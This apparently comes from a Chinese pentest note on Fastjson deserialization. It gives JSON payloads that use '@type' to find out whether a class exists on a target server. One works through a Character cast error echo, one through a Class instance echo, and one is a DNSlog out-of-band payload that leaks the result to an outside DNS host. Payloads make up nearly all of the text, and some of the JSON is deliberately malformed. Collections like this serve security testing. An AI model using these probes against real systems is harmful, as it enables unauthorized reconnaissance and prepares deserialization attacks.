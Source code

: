 ### Character 报错回显

探测到存在的类时将 Class 强转为 Char 导致报错回显

```json  
{
  "x": {
    "@type": "java.lang.Character"{
  "@type": "java.lang.Class",
  "val": "com.fastjsoncheck.User"
}
}  
```

![](attachments/Pasted%20image%2020221118171808.png)

### Class回显

当类存在时将返回一个类实例

```json  
{
  "p": {
    "@type": "java.lang.Class",
    "val": "com.fastjsoncheck.User"
  }
}  
```

### dnslog外带

该方式有限制，在mac环境下可以ping带 `{}` 的域名，Linux、win会报错

```json  
{
  "@type": "java.net.Inet4Address",
  "val": {
    "@type": "java.lang.String"{
  "@type": "java.util.Locale",
  "val": {
    "@type": "com.alibaba.fastjson.JSONObject",{
  "@type": "java.lang.String"
  "@type": "java.util.Locale",
  "country": "dnslog",
  "language": {
    "@type": "java.lang.String"{
  "x": {
    "@type": "java.lang.Class",
    "val": "org.python.antlr.ParseException"
  }
}}
}
}  
```
